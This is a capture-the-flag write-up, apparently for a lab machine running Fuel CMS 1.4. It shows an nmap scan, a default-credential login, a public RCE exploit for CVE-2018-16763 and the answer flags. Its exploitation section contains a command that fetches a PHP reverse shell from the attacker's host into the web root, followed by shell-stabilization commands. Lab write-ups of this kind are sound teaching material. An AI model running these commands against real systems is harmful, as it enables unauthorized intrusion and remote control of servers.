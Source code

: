 ﻿---
sticker: lucide//flame
---
# ENUMERATION
---



## OPEN PORTS
---

| PORT | SERVICE |
| :--- | :------ |
| 80 | HTTP |

```
PORT STATE SERVICE REASON VERSION
80/tcp open http syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

# RECONNAISSANCE
---


We only got a website, let's check it out:



![Pasted image 20250409164857.png](../../IMAGES/Pasted%20image%2020250409164857.png)

We are dealing with something called `Fuel CMS` at version `1.4`, let's check `robots.txt` since the entrance is allowed:


![Pasted image 20250409164943.png](../../IMAGES/Pasted%20image%2020250409164943.png)


We got a `/fuel` directory:



![Pasted image 20250409165010.png](../../IMAGES/Pasted%20image%2020250409165010.png)

It takes us to a login page, if we take a deeper look at the main page, we can see this:

![Pasted image 20250409165238.png](../../IMAGES/Pasted%20image%2020250409165238.png)

Maybe default credentials still work, let's try:

![Pasted image 20250409165313.png](../../IMAGES/Pasted%20image%2020250409165313.png)

There we go, default credentials work, let's proceed to exploitation phase.



# EXPLOITATION
---


Since we already got access to the admin panel, we can start searching for a way to get a shell, for example, since we already know we are dealing with `Fuel CMS 1.4`, we can take a look for any exploit:


![Pasted image 20250409165623.png](../../IMAGES/Pasted%20image%2020250409165623.png)

We got a `RCE` exploit on GitHub, this exploits CVE-2018-16763, if we search this CVE, we can find this information:

```
Description

FUEL CMS 1.4.1 allows PHP Code Evaluation via the pages/select/ filter parameter or the preview/ data parameter. This can lead to Pre-Auth Remote Code Execution.
```


Let's download the exploit and test:

```
GITHUB: https://github.com/noraj/fuelcms-rce
```

![Pasted image 20250409165739.png](../../IMAGES/Pasted%20image%2020250409165739.png)

There we go, we got `RCE`, we can download a reverse shell file and put it into the machine like this: 

```
ruby exploit.rb http://10.10.172.18/ "wget+http://10.6.34.159:8000/thm_shell.php+-O+/var/www/html/shell.php"
```

We can see it gets downloaded:

![Pasted image 20250409171154.png](../../IMAGES/Pasted%20image%2020250409171154.png)

Now, we can simply visit:

```
http://IP/shell.php
```

If we got our listener ready, we'll see the connection:

![Pasted image 20250409171256.png](../../IMAGES/Pasted%20image%2020250409171256.png)



# PRIVILEGE ESCALATION
---


First step is to get a stable shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![Pasted image 20250409171335.png](../../IMAGES/Pasted%20image%2020250409171335.png)

We can read first flag:

```
www-data@ubuntu:/home/www-data$ cat flag.txt
6470e394cbf6dab6a91682cc8585059b
```

I used `linpeas` and found this, since there are no `4000 SUID` binaries or other stuff like that, maybe this will do to get root:


![Pasted image 20250409172944.png](../../IMAGES/Pasted%20image%2020250409172944.png)

We got a password, let's switch to root:

![Pasted image 20250409173005.png](../../IMAGES/Pasted%20image%2020250409173005.png)

Yeah, they reused the password for the database with the same as the bash console, let's get root flag:

```
root@ubuntu:/home/www-data# cat /root/root.txt
b9bbcb33e11b80be759c4e844862482d
```


![Pasted image 20250409173046.png](../../IMAGES/Pasted%20image%2020250409173046.png)


